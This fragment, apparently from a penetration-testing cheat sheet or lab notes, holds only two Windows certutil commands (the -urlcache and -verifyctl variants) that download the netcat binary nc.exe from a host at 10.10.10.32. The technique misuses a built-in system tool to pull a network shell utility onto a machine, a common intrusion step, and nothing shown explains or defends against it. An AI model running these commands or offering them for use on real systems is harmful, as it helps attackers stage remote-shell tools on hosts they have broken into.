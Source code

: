 ```cmd
certutil -urlcache -split -f http://10.10.10.32/nc.exe 
```

```cmd
certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```